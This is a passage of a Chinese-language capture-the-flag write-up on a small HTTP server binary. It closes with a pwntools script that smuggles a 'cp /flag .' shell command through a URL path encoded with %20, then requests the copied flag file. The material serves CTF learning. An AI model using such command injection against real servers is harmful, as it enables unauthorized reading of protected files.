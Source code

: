 至此，整个程序的逻辑就已经摸的差不多了。因为我们可以直接读取文件内容，那为何不直接将 flag 复制到当前目录下，然后再发送读取的请求，让它输出 flag 呢？

唯一值得注意的是，我们使用 `cp` 指令将 flag 复制过来，指令之中必定会包含空格。由于这个程序是按标准的 HTTP 协议实现的 tiny server，我们直接查一下空格在 URL 中的转义字符，知道是 `%20`，如果是实现了自定义协议，那我们就得深入逆向它的子函数了……想想都觉得麻烦……

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    args,
    context,
    flat,
    process,
    remote,
)


FILE = "./httpd"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    payload = flat(
        b"GET /cp%20/flag%20. HTTP/1.0\n",
        b"Host: 127.0.0.1\n",
        b"Content-Length: 0\n",
    )
    target.send(payload)
    target.recvall()
    target.close()

    launch()
    payload = flat(
        b"GET /flag HTTP/1.0\n",
        b"Host: 127.0.0.1\n",
        b"Content-Length: 0\n",
    )
    target.send(payload)

    target.interactive()


if __name__ == "__main__":
    main()
```
